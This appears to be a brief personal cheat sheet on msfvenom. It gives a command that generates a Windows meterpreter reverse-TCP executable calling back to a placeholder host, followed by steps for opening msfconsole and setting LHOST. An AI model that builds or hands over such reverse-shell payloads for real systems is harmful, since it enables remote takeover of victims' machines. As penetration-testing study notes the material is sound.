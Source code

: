# Description
Everything I know about ```msfvenom``` and how to use it

### Generate reverse shell
1. ```/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip_address> -f exe -o payload.exe```: generates reverse shell
2. ```msfconsole```: enter the shell
3. ```set LHOST <ip_address>```: sets IP address to your host machine's IP address
